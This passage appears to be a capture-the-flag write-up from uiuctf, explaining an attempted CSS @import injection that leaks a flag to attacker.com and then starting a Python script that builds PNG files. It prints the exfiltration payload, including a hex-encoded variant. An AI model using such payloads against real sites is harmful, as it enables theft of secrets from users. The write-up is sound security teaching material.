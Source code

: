 While I was playing with javascript, my teammate pasted an interesting code in the discord channel.

```html
<style>@import 'http://attacker.com?a=uiuctf{FAKEFLAG}Enjoy your flag!</style>
```

When I tried the payload, I saw a request to `http://attacker.com` that contained the flag! Chrome fixes the CSS syntax for us and closes the quoted-string automatically.

```
https://attacker.com/?a=uiuctf{FAKEFLAG}Enjoy%20your%20flag!
```

So was it just this? We thought that this is the solution. But When we tried to include `http://challenge.com/?p=40696d706f72742027687474703a2f2f61747461636b65722e636f6d3f666c61673d` as a css stylesheet, it didn't work.

```html
<!--
The hex-encoded string decodes to `@import 'http://attacker.com?flag=`
-->
<link rel="stylesheet" href="/?p=40696d706f72742027687474703a2f2f61747461636b65722e636f6d3f666c61673d">
```

We were confused. My teammate and I spent some time trying to find out why it was not working. 

We then concluded that Chrome strictly checks that the content-type header of the stylesheet response is `text/css`. We were not so sure because there was no error message in the console. But eventually, we gave up on this idea.

> Actually, there is a section in Google's CORB documentation that mentions this behavior. It says the cross-origin stylesheet content-type should be `text/css`.
> I wish we had found this documentation during the ctf.

## image/png

I spent most of my time on this file type, which eventually didn't work. I started by reading PNG's wikipedia page.

Each PNG file has a header followed by a series of chunks. The header's length is only 8 bytes, and it contains the magic number and other stuff.

Each chunk consists of four parts. length, chunk type/name, chunk data, and CRC chucksum.

```
Length - 4 bytes big-endian
Chunk type - 4 bytes
Chunk data - n bytes
CRC - 4 bytes
```

That CRC field looked interesting. I wrote a python script to generate a valid PNG file. 

```python
#!/usr/bin/env python3
f = open('./file.png','wb')

buf = b''
buf += b'\x89PNG\r\n\x1a\n' # Header

##### IHDR chunk
buf += (13).to_bytes(4,byteorder='big') #Length of data section
buf += b'IHDR' #Chunk type
buf += b'\x00\x00\x00\x01\x00\x00\x00\x01\x01\x03\x00\x00\x00' #data section
buf += b'%\xdbV\xca' #CRC32 of chunkType+chunkData

### Adding other chunks
buf += (3).to_bytes(4,byteorder='big')
buf += b'PLTE'
# Not important stuff ... 
```
